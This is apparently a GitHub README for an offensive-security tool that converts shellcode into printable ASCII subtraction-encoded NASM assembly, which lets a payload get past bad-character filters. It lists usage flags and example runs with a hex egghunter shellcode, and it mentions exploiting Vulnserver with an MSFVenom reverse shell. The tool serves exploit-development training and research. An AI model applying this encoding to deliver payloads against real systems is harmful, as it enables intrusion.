 # Automatic ASCII Shellcode Subtraction Encoder
Generates printable ASCII subtraction encoded shellcode in assembly format for NASM.

# Installation
```
$ git clone https://github.com/EAugustoAnalysis/Automatic-ASCII-Shellcode-Subtraction-Encoder.git
$ cd Automatic-ASCII-Shellcode-Subtraction-Encoder
# pip3 install z3-solver
$ python3 encoder.py
```
Based on Marcos Valle's z3ncoder, which can ASCII encode a 32 bit address:
https://github.com/marcosValle/z3ncoder

# Usage
```
$ python3 encoder.py -s [shellcode] -b [badchars] -n [custom eax normalizer] -f [output file] -p
```

# Example
```
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ffe7
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ffe7 -f egghunter.asm
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ffe7 -b "0x2e,0x40" -n "and eax,0x23232323\nand eax,0x42324543\nand eax, 0x44444444"
$ python3 encoder.py -s 6681caff0f42526a0258cd2e3c055a74efb8543030578bfaaf75eaaf75e7ff -p #Automatic nop padding enabled
```

# Notes

Shellcode length must be a multiple of 4, nop padding can accomplish this. Shellcode must be in hex format.

This script will not generate the instructions required to reserve stack space for the decoded shellcode.

- Used to exploit LTER in Vulnserver with shellcode containing null bytes (unencoded MSFVenom Reverse Shell).
- Confirmed working with most MSFVenom x86 encoders.

Known Compatibility Issues
- When used with MSFVenom Shikata_ga_nai encoder, has an unexplained tendency to generate odd instructions and overwrite the EIP.

Default Normalizer
```
and eax,0x554e4d4a ;normalize eax
and eax,0x2a313235 ;normalize eax
```

Default (immutable) badchars: ```0x00,0x01-0x20 (includes 0x0d and 0x0a),0x3a,0x0f,0x80-0xFF```

# Coming Soon
- Verbosity settings
- ~~Automatic nop padding~~
implemented as an optional flag
- Return byte length of generated shellcode
- ~~Proper processing of "0x00000000" lines~~
implemented
- ~~Custom badchars, (currently badchars are 00, 20, 0a, 0d, 3a, 3f, and any character that's not printable, valid ASCII)~~
implemented
- ~~Custom output files for assembly code~~
implemented
- ~~Custom normalizer~~
implemented

# Coming Eventually
- Automatic badchar-based normalizer adjustment
